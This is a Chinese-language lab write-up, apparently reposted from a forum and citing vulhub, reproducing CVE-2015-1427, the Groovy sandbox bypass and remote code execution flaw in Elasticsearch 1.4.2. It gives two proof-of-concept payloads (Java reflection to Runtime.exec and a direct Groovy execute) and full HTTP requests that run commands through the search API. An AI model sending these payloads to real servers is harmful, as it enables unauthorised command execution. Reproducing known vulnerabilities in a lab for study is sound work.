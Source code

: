 # （CVE-2015-1427）ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2904](https://www.zhihuifly.com/t/topic/2904)

# （CVE-2015-1427）ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞

## 一、漏洞简介

CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过； 2.是一个Goovy代码执行漏洞。

## 二、漏洞影响

elasticsearch版本：v1.4.2

## 三、复现过程

### Groovy语言“沙盒”

ElasticSearch支持使用“在沙盒中的”Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1.  既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射
2.  Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：

```
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText() 
```

Goovy直接执行命令法：

```
def command='id';def res=command.execute().text;res 
```

### 漏洞复现

编译及运行测试环境

```
docker-compose build
docker-compose up -d 
```

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25 `{

“name”: “test”

}` 
```

然后发送包含payload的数据包，执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156 `{“size”:1, “script_fields”: {“lupin”:{“lang”:“groovy”,“script”: “java.lang.Math.class.forName(“java.lang.Runtime”).getRuntime().exec(“id”).getText()”}}}` 
```

![image](img/1504651339686fdff471c705b5e24857.png)

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/CVE-2015-1427/